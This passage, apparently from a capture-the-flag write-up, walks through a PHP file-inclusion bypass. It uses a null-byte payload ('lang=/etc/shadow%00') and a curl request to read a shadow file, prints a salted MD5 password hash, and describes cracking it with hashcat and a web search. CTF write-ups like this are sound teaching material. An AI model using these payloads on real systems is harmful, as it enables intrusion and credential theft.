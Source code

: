 Oh really. Gee, I wonder . . .

~~~~~~
Unable to open file! /etc/passwd.txt 
~~~~~~

Bugger. It's adding the '.txt' onto the end of whatever we send it, which simply won't do. But wait - we're on a PHP site, and PHP still uses null-terminated strings. So if we send a null on the end of our input we might be able to fool PHP into cutting the end off the string.

~~~~~~
lang=/etc/shadow%00
~~~~~~

I had to resort to [Fiddler](http://www.telerik.com/fiddler) for this one to stop it double-escaping my input, but that's fine. AndyTech, IRC denizen and CTF study-buddy, just used curl, which is simpler.

~~~~~~
<AndyTech> literally...  curl --data "lang=/etc/shadow%00" 
~~~~~~

Either way, we now have ourselves a shadow file.

~~~~~~
...snip...
smmta:*:15792:0:99999:7:::
smmsp:*:15792:0:99999:7:::
owasp:$1$BHZLob3h$mru35IhZzRdnfTHOADrkJ0:15897:0:99999:7:::
postfix:*:15901:0:99999:7:::
proftpd:!:16051:0:99999:7:::
...snip...
~~~~~~

Thankfully it's a $1$ hash, meaning salted MD5, so we're in with a shot at cracking this one. I spent a fruitless time running it through ye olde CPU version of [hashcat](http://hashcat.net/hashcat/) with the rockyou list because I have a janky Intel GPU in my laptop, whereas AndyTech just [Googled the hash](https://www.google.co.uk/search?q=%22%241%24BHZLob3h%24mru35IhZzRdnfTHOADrkJ0%22) in it's entirety and got the result that way.

~~~~~~
<AndyTech> hey tracer
<AndyTech> found it lol
<tracer> Yeah? Nice. Hashcat is still churning away ...
<AndyTech> google mate ;-)
<AndyTech> with "" quotations obvously
<AndyTech> 7/7 - I can return to my life now
<AndyTech> don't share these anymore ;-)
<tracer> LOL - why the fuck didn't I just Google the whole hash?!
<tracer> Oh well, at least my laptop is now heating the office. Nice find.
<AndyTech> hahaha
~~~~~~

The password wasn't even in the rockyou list. Hash cracking sucks.

## Yay
